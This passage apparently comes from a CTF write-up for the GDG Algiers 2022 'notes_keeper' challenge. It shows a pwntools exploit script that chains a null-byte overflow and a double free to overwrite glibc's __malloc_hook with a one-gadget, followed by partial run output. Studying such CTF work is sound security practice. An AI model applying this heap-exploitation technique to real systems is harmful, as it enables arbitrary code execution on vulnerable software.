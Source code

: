 ```
malloc_hook = libc_base + libc.symbols['__malloc_hook']
print(hex(malloc_hook))
onegadget = libc_base + 0xe21d1


add_note(0xf8, b'a' * 8)
add_note(0x108, b'b' * 8)

remove_note(0)
remove_note(1)
#Getting my null-byte overflow
add_note(0xf8, b'a' * (0xf8-1))
#Here's the double free
remove_note(1) 
#Overwrite forward pointer of the 0x110 bin with malloc hook
add_note(0xf8, p64(malloc_hook))
#Placeholder
add_note(0x108, b'a')
#Let's me allocate another chunk
remove_note(3)
#Allocates over the malloc hook
add_note(0x108, p64(onegadget)) 
#Let's me allocate again
remove_note(3)

#Trigger the malloc and onegadget.
print(target.recvuntil(b'Enter an option:'))
target.sendline(b'1')
print(target.recvuntil(b'Size:'))
target.sendline(str(0x28))


target.interactive()
```
Here is how the script looks when run:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/GDG_Algiers22/notes_keeper/lib$ python3 noteskeeper_exploit.py NOPTRACE
[+] Starting local process './chall': pid 296
[!] Skipping debug attach since context.noptrace==True
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/GDG_Algiers22/notes_keeper/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Index:'
noteskeeper_exploit.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(index))
b' This note is located at: '
0x7fdec01b12c0
0x7fdec0350c30
b'H\x83\xec\x08\xba\n\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
noteskeeper_exploit.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(size))
b' Note content:'
b' Note added\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
b' Note content:'
```
